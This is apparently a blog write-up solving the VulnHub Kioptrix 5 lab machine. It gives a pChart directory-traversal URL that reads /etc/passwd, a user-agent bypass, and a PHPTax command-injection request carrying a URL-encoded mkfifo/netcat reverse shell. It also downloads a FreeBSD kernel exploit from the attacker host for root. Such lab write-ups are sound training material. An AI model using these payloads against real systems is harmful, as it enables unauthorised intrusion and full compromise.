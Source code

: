 ```yaml
---
title: "Kioptrix 5"
date: 2024-05-20
draft: false
summary: "Writeup for Kioptrix level 5 of the Kioptrix series challenge on VulnHub."
tags: ["kioptrix", "linux", "lfi", "directory traversal", "kernel exploit"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/kioptrix5/cover.png"
  caption: "Kioptrix 5 VulnHub Challenge"
  alt: "Kioptrix 5 cover"
platform: "VulnHub"
---
```


This is the final level in the Kioptrix series and has the same goal as the rest - capture the flag present in the root directory by any means possible.
<!--more-->
You can download kioptrix level 5 by clicking on the link given below:
- https://www.vulnhub.com/entry/kioptrix-2014-5,62/

## Recon

I performed a network scan to find the IP of the target machine.

```bash
nmap -sn 192.168.1.0/24              
```

After identifying the target IP, I performed an **nmap** aggressive scan to find open ports and running services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 8080     | http        |

![](https://cdn.ziomsec.com/kioptrix5/1.png)

## Initial Foothold

I tried fetching information about the application running on port 8080 but was forbidden.

```shell
curl http://TARGET:8080
```

![](https://cdn.ziomsec.com/kioptrix5/2.png)

I fetched information about port 80 using **curl** and found an interesting path.

```shell
curl http://TARGET
```

![](https://cdn.ziomsec.com/kioptrix5/3.png)

I accessed the path mentioned in the comment and got access to a charting application.

![](https://cdn.ziomsec.com/kioptrix5/4.png)

Since the version of this application was available, I searched **Exploit-DB** for any exploits related to it.

```shell
searchsploit "pChart"
searchsploit -m php/webapps/31173.txt
```

![](https://cdn.ziomsec.com/kioptrix5/5.png)

I found out that this particular version of the application was vulnerable to directory traversal.

![](https://cdn.ziomsec.com/kioptrix5/6.png)

Hence, used the provided payload to read the contents of the */etc/passwd* file.

```
http://TARGET/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd
```

![](https://cdn.ziomsec.com/kioptrix5/7.png)

I then searched for the path where FreeBSD systems store Apache configuration files.

```
/usr/local/etc/apache22/httpd.conf
```

I accessed this file and found the reason why I was being denied on port 8080.

![](https://cdn.ziomsec.com/kioptrix5/8.png)

![](https://cdn.ziomsec.com/kioptrix5/9.png)

It required a specific user-agent. So I used **curl** to fetch information about that port by adding this user-agent.

```shell
curl http://TARGET:8080 -A "Mozilla/4.0 Mozilla4_browser"
```

![](https://cdn.ziomsec.com/kioptrix5/10.png)

This had a directory listing and a link to "phptax". So I used **searchsploit** to look for exploits related to it.

>PHPtax is a free, open-source web application designed for managing and preparing tax documents. 

```shell
searchsplot "phptax"
```

![](https://cdn.ziomsec.com/kioptrix5/11.png)

I tried the exploit available on Metasploit but it didn't work. So, I use alternative from Exploit DB to get a reverse shell using **netcat**:
- https://www.exploit-db.com/exploits/21665

I started an **nc** listener on port 4444.

```bash
rlwrap nc -lnvp 4444
```

I then configured a **netcat mkfifo** payload from **revshells**, URL encoded it and used it to get a reverse shell.
- https://www.revshells.com/

![](https://cdn.ziomsec.com/kioptrix5/12.png)

```shell
curl http://TARGET:8080/phptax/drawimage.php?pfilez=1040d1-pg2.tob;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20KALI%20PORT%20%3E%2Ftmp%2Ff;&pdf=make -A "Mozilla/4.0 Mozilla4_browser"
```

![](https://cdn.ziomsec.com/kioptrix5/13.png)

## Privilege Escalation

The flag was present in the *root* directory but I did not have the permissions to read it.

![](https://cdn.ziomsec.com/kioptrix5/14.png)

I viewed the kernel information and searched for exploits related to it on **Exploit DB** using **searchsploit**.

```shell
uname -a
```

![](https://cdn.ziomsec.com/kioptrix5/15.png)

```shell
searchsploit "FreeBSD 9.0"
```

![](https://cdn.ziomsec.com/kioptrix5/16.png)

I downloaded the first exploit on the target.

```shell
fetch http://KALI/EXPLOIT
```

![](https://cdn.ziomsec.com/kioptrix5/17.png)

After compiling it, I ran the exploit to get root access.

```shell
gcc EXPLOIT
./a.out
```

![](https://cdn.ziomsec.com/kioptrix5/18.png)

Finally, I navigated to the root directory, fixed the permission of the flag and captured it.

```shell
cd root
chmod 777 congrats.txt
cat congrats.txt
```

![](https://cdn.ziomsec.com/kioptrix5/19.png)

![](https://cdn.ziomsec.com/kioptrix5/20.png)

## Closure

Here's a summary of how I pwned Kioptrix Level 5:
- I exploited the Directory Traversal vulnerability in the *pchart* page to get HTTP configuration information.
- This gave me a way to access the server on port 8080.
- I used the *phptax* RCE exploit to get a reverse shell from the server running on port 8080.
- I then used a kernel exploit to escalate my privilege.

That's it from my side.
Happy Hacking :)

---
